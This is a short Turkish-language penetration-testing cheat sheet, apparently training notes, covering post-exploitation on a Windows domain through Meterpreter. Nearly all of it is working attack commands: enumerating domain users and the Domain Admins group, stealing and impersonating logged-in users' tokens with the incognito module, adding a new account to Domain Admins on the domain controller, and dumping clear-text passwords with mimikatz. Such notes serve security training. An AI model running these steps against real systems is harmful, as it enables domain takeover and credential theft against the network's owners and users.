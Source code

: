 **- Token**

	Mtr> shell
	S> net user /domain
	S> net user bob /domain		(bob'un yetki seviyesini öğreniyoruz)
	S> net group "Domain Admins" /domain	(domain admins grubundaki kullanıcıları gösterir.)
	S> exit
	Mtr> load incognito
	Mtr> list_tokens -u

- Bir kullanıcının token'ini aldığımızda kendimizi onun gibi gösterebiliriz. Eğer sisteme domain admin giriş yapmışsa ve sign off yapmamışsa domain admin'in tokeni hedef makine kapanana kadar orada kalacaktır.

		S> ipconfig /all	(DNS server'a bakarak DC'nin IP adresini alırız veya enum_domain post modülünü kullanırız.)
		Mtr> add_user siberkamp Bgasec -h <DC_IP>
		Mtr> add_group_user "Domain Admins" siberkamp -h <DC_IP>

**- Clear Text Password:**

	Mtr> load mimikatz	(Clear text password alır. Windows 8den sonrası önlem aldı, öncesinde çalışır.)
	Mtr> wdigest

